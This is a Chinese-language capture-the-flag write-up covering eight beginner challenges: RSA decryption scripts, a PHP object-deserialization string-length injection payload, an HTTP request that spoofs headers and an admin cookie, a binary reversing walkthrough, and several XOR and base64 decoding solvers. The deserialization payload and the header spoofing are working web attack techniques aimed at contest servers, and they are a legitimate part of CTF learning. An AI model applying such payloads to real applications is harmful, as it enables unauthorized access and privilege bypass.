

# 重生之ch要做ctf高手

## 0x00 - baby rsa - 何铭棋

这个思路也是，逆反就行，给的代码都是吓人的


### Code: 
```python
from Crypto.Util.number import inverse, long_to_bytes
# 已知的值
p = 115476428622439866113197844281562319157136075335413171302461560351567561591347
q = 67117133497575362017131440624261496347346394769515324820395911935704276971137
e = 5
c=236400710574390569272197805617795702168217012826554346113705505429836607060914253979074095809968351281080994375690907288679390079120154305997536784400256966458693547019257329155125961503850933379334147201976163975576464361454360012074697557470671071097492653517343143572187172966375544473790547895743207828163018551825276610970932181575984061540632284998840646277682450167911035226784921773973765821972308381854239446660782127261979697323195639510387705687937592519277674512012740424405806271284479704959786966252139934760778125
# 计算 modulus n
n = p * q
# 计算 Euler 函数 phi
phi = (p - 1) * (q - 1)
# 计算私钥 d
d = inverse(e, phi)
# 使用私钥 d 解密密文 c
m = pow(c, d, n)
# 将解密后的整数转换回字节串，并打印明文
flag = long_to_bytes(m)
print(flag.decode())

```


## 0x01 - 游戏&&Serialize - 戴千皓

打开网页后按开F12，查看 script 时注意到
```javascript
getFlag: function() {
    var req = new XMLHttpRequest;
    req.open("GET","flag.php?score="+obj.score,true);
    req.onload = function() {
        alert(this.responseText);
    }
    req.send();
}
//hint:可以达到10000000分的话，就给你奖励!!!!
```
于是发请求，一通跳转后来到 `/SAS.php`
```php
<?php
highlight_file(__FILE__);

require_once('y0u_know_Me.php');

$Chant = isset($_GET['chant']) ? $_GET['chant'] : 'SASCTF等你来战';

$new_visitor = new SAS($Chant);

$before = serialize($new_visitor);
$after = Deadly_Thirteen_Spears::Make_a_Move($before);
echo 'Your Movements: ' . $after . '<br>';

try{
    echo unserialize($after);
}catch (Exception $e) {
    echo "Even Caused A Glitch...";
}
?>
Your Movements: O:3:"SAS":2:{s:5:"Chant";s:18:"SASCTF等你来战";s:11:"Spear_Owner";s:6:"Nobody";}
Far away from and try.....
```
发现一个require，同时请求过去
```php
<?php

if (basename($_SERVER['SCRIPT_FILENAME']) === basename(__FILE__)) {
    highlight_file(__FILE__);
}

class Deadly_Thirteen_Spears{
    private static $CTF = array(
        "SA_yi_qiang" => "Lovesickness",
        "SA_er_qiang" => "Heartbreak",
        "SA_san_qiang" => "Blind_Dragon",
        "SA_si_qiang" => "Romantic_charm",
        "SA_wu_qiang" => "CTF",
        "SA_liu_qiang" => "White_Dragon",
        "SA_qi_qiang" => "Penetrating_Gaze",
        "SA_ba_qiang" => "important",
        "SA_jiu_qiang" => "cybersercuity",
        "SA_shi_qiang" => "Overlord",
        "SA_shi_yi_qiang" => "SAS",
    );

    public static function Make_a_Move($move){
        foreach(self::$CTF as $index => $movement){
            $move = str_replace($index, $movement, $move);
        }
        return $move;
    }
}

class SAS{

    public $Chant = '';
    public $Spear_Owner = 'Nobody';

    function __construct($chant){
        $this->Chant = $chant;
        $this->Spear_Owner = 'Nobody';
    }

    function __toString(){
        if($this->Spear_Owner !== 'MaoLei'){
            return 'Far away from and try.....';
        }
        else{
            return "So COOOOOL!!! " . getenv('GZCTF_FLAG');
        }
    }
}

?>
```

分析代码后我们知道，想要得到flag，需要SAS被输出时 `Spear_Owner`为`MaoLei`（猫雷？）  
观察SAS.php中的代码，`Deadly_Thirteen_Spears::Make_a_Move`是直接replace的序列化后的字符串，会导致最终再被反序列化时的字符串长度不匹配，因此可以利用这一点来构造一个特定的`Chant`同时给`Spear_Owner`赋值  
因此我们构造出一个`Chant_Suffix`为`";s:11:"Spear_Owner";s:6:"MaoLei";}`的字符串，他的长度是`35`，由于`len("Penetrating_Gaze") - len("SA_qi_qiang") == 5`，因此我们最终的Chant为`SA_qi_qiangSA_qi_qiangSA_qi_qiangSA_qi_qiangSA_qi_qiangSA_qi_qiangSA_qi_qiang";s:11:"Spear_Owner";s:6:"MaoLei";}`  
得到flag `SASCTF{8f896793-f59b-49d3-8c03-e9c2bb7b5f39}`

## 0x02 签到题 - 戴千皓&&何铭棋&&陈杭&&温锦鑫

是一个python文件，flag被ascii encode之后被base64 encode，但是最终的base64结果被upper破坏掉了，因此需要猜  
众所周知，base64 encode时每3byte为单位，pad为4个char，因此我们可以将 `U0FTQ1RGE2P1C3RFYV9TAW5FYmFZZTY0FQ==` 每4个字符切开，变成一个个 `chunk`  
接下来逐个操作 `chunk`，全部提升为大写，然后dfs算出小写

### code

```python
import base64

def all_combinations(s: str):
    s = s.upper()
    result = set()
    dfs(s, 0, result)
    return result

def dfs(s, i, result):
    if i == len(s):
        decoded = base64.b64decode(s)
        # 判断是否为可显示字符，即decode是否正确
        if all(32 <= b <= 126 for b in decoded):
            result.add(s)
    else:
        dfs(s, i + 1, result)
        s = s[:i] + s[i].lower() + s[i+1:]
        dfs(s, i + 1, result)

chunks = ["U0FT", "Q1RG", "E2P1", "C3RF", "YV9T", "AW5F", "YmFZ", "ZTY0", "FQ=="]
possibles = []
for chunk in chunks:
    possibles.add(all_combinations(chunk))
print(possibles)
```

最后手动组合后不断尝试~~爆破~~提交即可

## 0x03 forkey - 戴千皓

### Step 1. 静态分析

ida静态分析，发现v6是输入字符串，前面的区域是你的输入，然后它计算了一坨东西放在了v6的后半，下面的for循环逐char判断，所以显而易见，v6的后半部分是flag，所以我们在判断以后拿到v6的后半就好了


### Step 2. 动态分析

打开x64dbg，设定好基址偏移后在Fail的地方打断点，回到终端随便输入点什么，触发断点后，注意到右侧的`RDI`寄存器即是我们前面静态分析得出的`v6`的地址，查看内存便得到了flag

)

## 0x04 easy_rsa - 何铭棋

看了看py代码，一点也不easy
把代码逆转，推回去，写一份py

```python
import libnum

def decrypt_RSA(c, p, q, e):
    phi_n = (p - 1) * (q - 1)
    d = libnum.invmod(e, phi_n)
    decrypted_message = pow(c, d, p * q)
    # 将解密后的长整型转换为字节串
    plaintext = libnum.n2s(decrypted_message)
    return plaintext
if __name__ == "__main__":
    # RSA 参数
    p = 115476428622439866113197844281562319157136075335413171302461560351567561591347
    q = 67117133497575362017131440624261496347346394769515324820395911935704276971137
    e = 65537
    c = 74677974610048670317566951926364172076359211835526261136666062548262941020282386816118133926491192120571968569188028372897816817642339154182911453658155151141481377805447744341215672805963413065053579314256665627486423002522281777512120416189011573041941992516819516368023052142033305750825042861175699573589
    # 解密密文
    plaintext = decrypt_RSA(c, p, q, e)
    print("Decrypted message:", plaintext)
```


得到flag `SASCTF{Rs@_@1s0_L1ke_Y0u!}`

## 0x05 http - 戴千皓
没什么好说的
```
POST /?SAS1%5Byes.no=u HTTP/1.1  // ans1
Host: 111.230.195.230:33972
User-Agent: SAS_C3cbeR_Browser  // ans5
Cookie: character=sas_admin  // ans3
Via: SAS_proxy  // ans6
X-Real-IP: 127.0.0.1  // ans4
Content-Length: 17  // ans2
Content-Type: application/x-www-form-urlencoded  // ans2
Connection: keep-alive

SAS2%5Byes.know=u  // ans2
```

## 0x06 Xxxor - 陈杭

根据文本给的输出字符转换为整形运算得到一个数组，枚举每一个可以打印的字符的异或能执行上述得到的整数数字的数组从前往后枚举下去，得到一个c数组，将其打印出来

```cpp
#include<iostream>
int a[30]={18,18,16,23,18,61,35,32,0,72,98,13,110,4,106,61,16,27,88,0,88,93,90,26,85,0,0,92,35};
int c[60];
void dfs(int step){
	if(step==29){
		for(int i=0;i<29;i++){
			std::cout<<(char)c[i];
		}
		std::cout<<std::endl;
	}
	for(int i=32;i<=126;i++){
		if((c[step]^i)==a[step]){
			c[step+1]=i;
			dfs(step+1);
		}
	}
	return;
}
int main(){

	for(int i=32;i<=126;i++){
	 	c[0]=i;
	 	dfs(0);
	} 
    return 0;
}
```


## 0x07 base，base，我要diss你 - 何铭棋

> UQIVX=00wMW2fkzQ=FeX9scN5RfTG1VyAjGlyQRkVXhRQbM1wzfm

打开文本得到一串&**%#。。。研磨了一会发现和base64有关
直接解码不行，那就一次次试栅栏密码


发现w型和base64有点关联


得到`SASCTF{D0_Y0U_L!k2_8@se_64_@nd_4enc2}`

## 0x08 易如反掌！！！ - 何铭棋

逆推就行，呃呃，有个坑就是m得把多余的删掉

```python
from Crypto.Util.number import *
c=[953829334, 1684359943, 531304145, 909331528, 1352686232, 2031754063, 782438040, 2033733455, 781519254, 1129144067, 917776567]
IV = bytes_to_long(b'cbc!')
m = [bytes_to_long(b'SASC')]
k = IV ^ m[0] ^ c[0]
print(k)
for i in range(len(c)-1):
    m.append(k^c[i]^c[i+1])
for i in range(len(m)):
    print(long_to_bytes(m[i]).decode(),end='')

```


去掉无用的，得到：`SASCTF{es72b!a5-njad!C6c_@bc_b6c_T1me!!!}`

